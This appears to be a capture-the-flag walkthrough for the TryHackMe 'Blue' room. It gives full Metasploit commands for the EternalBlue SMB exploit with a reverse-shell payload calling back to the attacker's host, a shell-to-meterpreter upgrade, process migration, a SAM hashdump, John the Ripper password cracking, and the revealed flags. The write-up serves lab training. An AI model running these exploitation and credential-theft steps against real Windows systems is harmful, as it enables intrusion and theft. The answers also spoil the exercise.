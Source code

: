 # Blue

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

> 🔬🌐 [Blue](https://tryhackme.com/room/blue)
>
> *Deploy & hack into a Windows machine, leveraging common misconfigurations issues.*
>
> ![](.gitbook/assets/blue.jpg)

🎯 Target IP: `10.10.177.175`

## Recon

```bash
nmap -p1-1000 10.10.177.175
nmap -sV -p445 10.10.177.175
nmap --script smb-vuln-ms17-010 -p445 10.10.177.175
```

## Exploitation

```bash
msfconsole -q
```

```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.177.175
set LHOST 10.18.65.48
# LHOST = tun0 VPN interface IP
run

background # or CTRL+Z
```

![](.gitbook/assets/image-20230316134157848.png)

## Privilege Escalation

- Used payload was `windows/x64/shell/reverse_tcp`, so convert the shell to a `meterpreter` shell.

```bash
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
sessions
set SESSION 2
run
```

![](.gitbook/assets/image-20230316141128868.png)

```bash
sessions 5
getuid
	Server username: NT AUTHORITY\SYSTEM
ps
```

- My process may not run as `SYSTEM` user. Select a `PID` (process ID) with the `NT AUTHORITY\SYSTEM` user, and migrate my process to that one. `e.g. ` 1284 - spoolsv.exe

```bash
migrate 1284
```

![](.gitbook/assets/image-20230316141809336.png)

## Post Exploitation

### Cracking

```bash
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```

`aad3b435b51404eeaad3b435b51404ee` is the LM hash for ***no password***.

```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > jonhash.txt

john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt jonhash.txt
```

`ffb43f0de35be4d9917ac0cc8ad57f8d` is the NTLM hash for `alqfna22`.

Jon's credentials are `jon`:`alqfna22`.

![](.gitbook/assets/image-20230316142843628.png)

## Flags

- In the `meterpreter` session

```bash
cd C:\\
dir
cat flag1.txt
```

<details>
<summary>Reveal Flag1: 🚩</summary>



`flag{access_the_machine}`

![](.gitbook/assets/image-20230316143237356.png)

</details>



```bash
cd C:/Windows/System32/config
cat flag2.txt
```

<details>
<summary>Reveal Flag2: 🚩</summary>



`flag{sam_database_elevated_access}`

![](.gitbook/assets/image-20230316143502259.png)

</details>



```bash
cd C:\\Users\\
dir
cd Jon
cd Documents
cat flag3.txt
```

<details>
<summary>Reveal Flag3: 🚩</summary>



`flag{admin_documents_can_be_valuable}`

![](.gitbook/assets/image-20230316143807868.png)

</details>

------

